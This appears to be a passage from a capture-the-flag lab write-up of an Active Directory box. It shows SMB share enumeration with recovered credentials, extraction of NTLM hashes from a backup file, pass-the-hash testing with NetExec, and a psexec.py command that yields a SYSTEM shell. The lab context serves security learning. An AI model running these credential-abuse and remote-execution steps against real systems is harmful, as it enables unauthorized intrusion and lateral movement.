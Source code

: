 With the recovered credentials for `file_svc`, I attempted SMB enumeration to identify accessible network shares with the following command : 

```sh
smbmap -u "file_svc" -p <REDACTED> -H 10.10.213.214
```

<img width="945" height="188" alt="Capture d'écran 2025-08-15 155153" src="https://github.com/user-attachments/assets/43cde7ef-2e59-4014-8895-b7a55ff24a52" />

The scan revealed multiple shares, with `backup` being accessible in **READ ONLY** mode.

I connected to the share using `smbclient`:

``` sh
smbclient //10.10.213.214/backup -U file_svc
```

Listing the contents showed a file named `backup_extract.txt`. I downloaded it locally :

<img width="970" height="246" alt="Capture d'écran 2025-08-15 155510" src="https://github.com/user-attachments/assets/ad730f18-a3b0-4b74-8d6d-eb0653d82c15" />

Inspecting the file revealed what appeared to be **NTLM hashes** for several machine accounts :

<img width="860" height="203" alt="Capture d'écran 2025-08-15 155702" src="https://github.com/user-attachments/assets/94480352-dedf-4be7-ba7a-d2b809aeaf1f" />

Our goal was to separate the machine account names from their hashes for testing. First, we extracted the server names :

``` sh
cat backup_extract.txt| cut -d ":" -f1 > servers.txt
```

<img width="689" height="252" alt="Capture d'écran 2025-08-15 160539" src="https://github.com/user-attachments/assets/cca4d53e-6507-41a8-89dc-76f36bd2f059" />

Then, we extracted the corresponding NTLM hashes:

```sh
 cat backup_extract.txt| cut -d ":" -f4 > hashes2.txt
```

<img width="551" height="260" alt="Capture d'écran 2025-08-15 160418" src="https://github.com/user-attachments/assets/afa6874f-4040-472e-8432-c6c797ff6d0f" />

With the lists prepared, we used **NetExec** to test each machine account against the domain controller :

```sh
nxc smb SOUPEDECODE.LOCAL -u servers.txt -H hashes2.txt --no-bruteforce
```

In our case, the account **FileServer$** was flagged as `(Pwn3d!)`, indicating it had admin-level access :

<img width="985" height="247" alt="Capture d'écran 2025-08-15 161625" src="https://github.com/user-attachments/assets/51717d6a-d3cb-4cdd-8fcf-6098d24ab65f" />

With the compromised machine account identified (**FileServer$**), we leveraged **Impacket’s `psexec.py`** through our prepared environment to execute commands remotely on the target Windows machine. This allowed us to upload a malicious executable and spawn a system-level shell :

```
/root/.local/share/uv/tools/netexec/bin/psexec.py 'FileServer$@10.10.213.214' -hashes ':<REDACTED>'
```
